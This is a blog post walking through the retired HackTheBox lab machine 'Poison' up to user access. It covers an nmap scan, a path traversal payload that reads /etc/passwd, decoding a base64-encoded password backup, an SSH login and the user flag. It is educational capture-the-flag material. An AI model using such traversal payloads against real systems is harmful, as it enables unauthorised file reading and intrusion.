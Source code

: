 +++
author = "Dan Salmon"
date = 2018-10-18T04:33:52Z
description = ""
draft = false
tags = ["hackthebox", "ctf"]
slug = "hackthebox-poison"
title = "HackTheBox 'Poison' - Own User Guide"
type = "post"
+++

**Note:** *If you are currently trying to get access to this box, I highly recommend you try it yourself first and only use this guide if you really are stuck.*
<br />
<br />


### Intro

Now that the Poison box is retired on hackthebox, we can talk publicly about how to gain access to this machine. While this machine was active, I only took the time to gain user access, not all the way to root. There are multiple ways to get access on Poison, but I'm just showing the way I took which is one of the shortest routes to the user. 


### Machine Overview

All we know about this box initially is that it's running FreeBSD and that most users who have completed it rate it as relatively easy to exploit. 

![poison-overview](../images/poison-overview.png)


### Steps

As with all pentests, we must start with recon. Let's start by port scanning the box.

```shell
nmap -sC -sV -oA hackthebox-poison 10.10.10.84
```

and the results show:

![poison-scan](../images/poison-scan.png)

So we can see this box only has SSH and HTTP running. Let's see what's running on port 80.

![poison-home](../images/poison-home.png)


Here there's a list of file names and a textbox. If we enter any of the filenames into the text box, the page seems to read the contents of the file and output it to the screen. We're expected to input a file from the list of file names, but let's see what happens if we try to leave the current directory.

In the browser, try to navigate to

```json
http://10.10.10.84/browse.php?file=../../../../../../../../../etc/passwd
```

and we should get the output

```
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

Nice! The page is vulnerable to a [Path Traversal attack](https://www.owasp.org/index.php/Path_Traversal). In the output we can see that there are 2 users that have shell access on the box: `charix` and `root`.

This is good information, but not enough to get access into the box. Let's circle back to the files listed on the home page

```
ini.php
info.php
listfiles.php
phpinfo.php
```

Entering `listfiles.php` into the box on the home page lists the files we already know about, but also an unknown file with an interesting name - `pwdbackup.txt`. 

Well let's check that one out!

```json
http://10.10.10.84/browse.php?file=pwdbackup.txt
```

```markdown
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

We can tell it's probably Base64 encoded based on the fact that it sends with an equal sign. Since the hint tells us it's encoded 13x, just run it through a Base64 decoder 13x. After all that we get:

```markdown
Charix!2#4%6&8(0
```

Sure looks like a password to me! Verify this by SSH'ing into the box with this password:

```
ssh charix@10.10.10.84
```

and of course grab the flag to claim

```
$ cat ~/user.txt
eaacdfb2d141b72a589233063604209c
```

Root escalation will be left as an excercise to the reader (because I didn't have time to do it before the box was retired).







